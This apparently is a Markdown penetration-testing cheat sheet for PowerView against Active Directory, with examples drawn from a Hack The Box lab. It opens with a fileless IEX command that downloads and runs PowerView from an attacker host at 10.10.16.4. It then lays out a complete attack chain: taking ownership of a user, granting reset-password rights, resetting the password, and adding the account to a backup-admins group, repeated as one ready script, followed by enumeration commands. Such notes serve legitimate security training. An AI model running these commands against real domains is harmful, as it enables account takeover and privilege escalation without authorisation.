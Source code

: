 # PowerView.ps1

## Fileless (Running PS1 without saving to disk)
```
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.4/PowerView.ps1')
```

## Take Ownership over User
- Prerequisite is to have PowerView loaded

```
Set-DomainObjectOwner -Identity Herman -OwnerIdentity nico
```

## Reset Password
- Prerequisite is to have PowerView loaded
- Take ownership of user

```
Add-DomainObjectAcl -TargetIdentity Herman -PrincipalIdentity nico -Rights ResetPassword -Verbose
$pass = ConvertTo-SecureString 'P@ssw0rd123' -AsPlainText -Force
Set-DomainUserPassword Herman -AccountPassword $pass -Verbose
```

## Build New Credential
```
$pass = ConvertTo-SecureString 'P@ssw0rd123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('HTB\Herman', $pass)
```

## Add user to group
## Reset Password
- Prerequisite is to have PowerView loaded
- Take ownership of user
- Build the $cred
```
Add-DomainGroupMember -Identity 'Backup_Admins' -Members Herman -Credential $cred
```

## Check AD Groups with PowerView
```
Get-DomainGroup -MemberIdentity Herman | select SamAccountName
```

## All Steps in Order
```
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.4/PowerView.ps1')
Set-DomainObjectOwner -Identity Herman -OwnerIdentity nico
Add-DomainObjectAcl -TargetIdentity Herman -PrincipalIdentity nico -Rights ResetPassword -Verbose
$pass = ConvertTo-SecureString 'P@ssw0rd123' -AsPlainText -Force
Set-DomainUserPassword Herman -AccountPassword $pass -Verbose
$cred = New-Object System.Management.Automation.PSCredential('HTB\Herman', $pass)
Add-DomainGroupMember -Identity 'Backup_Admins' -Members Herman -Credential $cred
Get-DomainGroup -MemberIdentity Herman | select SamAccountName
```

## Get UserAccountControl for Domain Users
```
Import-Module .\PowerView.ps1 OR . .\PowerView.ps1
Get-DomainUser * -AdminCount | select samaccountname,useraccountcontrol
```

## DSQuery (find passwords that dont expire)
```
dsquery user "OU=Employees,DC=inlanefreight,DC=local" -name * -scope subtree -limit 0 | dsget user -samid -pwdneverexpires | findstr /V no
```

## PowerView Most Used Commands 
[Additional Reference: PowerShell and PowerView Modules](../Powershell%20AD%20%26%20Powerview%20Modules/README.md)

| Command | Description | 
| ---------------------------- | ---------------------------- |
| Export-PowerViewCSV | Append results to a CSV file | 
| ConvertTo-SID | Convert a user or group NAME to SID value | 
| Get-DomainSPNTicket | Requests the Kerberos ticket for a specified Service Principal Name (SPN) account | 
| Get-Domain | Returns the AD object for the current or specific domain | 
| Get-DomainController | Return a list of Domain Controllers for the specified domain | 
| Get-DomainUser | Will return all users or specific user objects in AD | 
| Get-DomainUser -UACFilter ACCOUNTDISABLE \| select samaccountname,description | Find all disabled users, only output samaccountname and description|
| Get-DomainComputer | Will return all computers or specific computer objects in AD | 
| Get-DomainGroup | Will return all groups or specific group objects in AD | 
| Get-DomainOU | Search for all or specific OU in AD | 
| Find-InterestingDomainAcl | Finds object ACLs in the domain with modification rights set to non-built in objects | 
| Get-DomainGroupMember | Will return the members of a specific domain group | 
| Get-DomainFileServer | Returns a list of servers likely functioning as file servers | 
| Get-DomainDFSShare | Returns a list of all distributed file systems for the current (or specified) domain | 
| Get-DomainGPO | Will return all GPOs or specific GPO objects in AD | 
| Get-DomainPolicy | Returns the default domain policy or the domain controller policy for the current domain | 
| Get-NetlocalGroup | Enumerates local groups on the local or a remote machine | 
| Get-NetLocalGroupMember | Enumerates member of a specific local group | 
| Get-NetShare | Returns open shares on the local (or remote) machine | 
| Get-NetSession | Will return session information for the local (or a remote) machine | 
| Test-AdminAccess | Tests if the current user has admin access to the local or a remote machine | 
| Find-DomainUserLocation | Finds machines where specific users are logged in | 
| Find-DomainShare | Finds reachable shares on domain machines | 
| Find-InterestingDomainShareFile | Searches for files matching specific criteria on readable shares in the domain | 
| Find-LocalAdminAccess | Find machines on the local domain where the current user has local admin access | 
| Get-DomainTrust | Returns domain trusts for the current domain or a specified domain | 
| Get-ForestTrust | Returns all forest trusts for the current forest or a specified forest | 
| Get-DomainForeignUser | Enumerates users who are in groups outside of the user's domain | 
| Get-DomainForeignGroupMember | Enumerates groups with users outside of the group's domain and returns each foreign member | 
| Get-DomainTrustMapping | Will enumerate all trusts for the current domain and any others seen | 

- Another alternative to PowerView is the C# version called, SharpView.  Many of the same commands will work.